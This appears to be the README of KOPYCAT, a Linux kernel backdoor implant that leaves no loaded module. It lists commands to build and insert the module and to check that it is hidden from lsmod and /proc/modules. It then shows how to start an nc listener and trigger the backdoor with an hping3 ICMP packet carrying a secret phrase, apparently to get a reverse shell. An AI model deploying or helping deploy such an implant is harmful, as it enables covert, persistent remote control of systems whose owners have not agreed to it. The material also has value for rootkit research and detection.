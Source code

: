 # 0

KOPYCAT - Linux Kernel module-less implant (backdoor)

# Usage

~~~
$ make
$ sudo insmod kopycat.ko
insmod: ERROR: could not insert module kopycat.ko: Inappropriate ioctl for device
$ lsmod | grep kopycat
$ cat /proc/modules | grep kopycat
~~~

Launch `nc` listener:
~~~
$ nc -l 8087
~~~

Trigger the backdoor by sending ICMP packet with secret phrase:
~~~
$ sudo hping3 -c 1 -j -1 -e black-magic-test <target>
~~~

# Author

[Ilya V. Matveychikov](https://github.com/milabs)

2021
